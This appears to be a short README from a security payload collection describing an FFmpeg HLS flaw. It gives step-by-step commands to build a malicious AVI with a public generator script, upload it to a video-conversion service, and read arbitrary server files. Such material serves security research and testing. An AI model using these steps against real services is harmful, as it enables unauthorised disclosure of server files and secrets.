 # FFmpeg HLS vulnerability
FFmpeg is an open source software used for processing audio and video formats. You can use a malicious HLS playlist inside an AVI video to read arbitrary files.

## Exploits
```
1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. Upload `file_read.avi` to some website that processes videofiles
3. (on server side, done by the videoservice) `ffmpeg -i file_read.avi output.mp4`
4. Click "Play" in the videoservice.
5. If you are lucky, you'll the content of `<filename>` from the server.
```

## Thanks to
* [Hackerone - Local File Disclosure via ffmpeg @sxcurity](https://hackerone.com/reports/242831)
* [PHDays - Attacks on video converters:a year later, Emil Lerner, Pavel Cheremushkin](https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.p)
* [Script by @neex](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py)
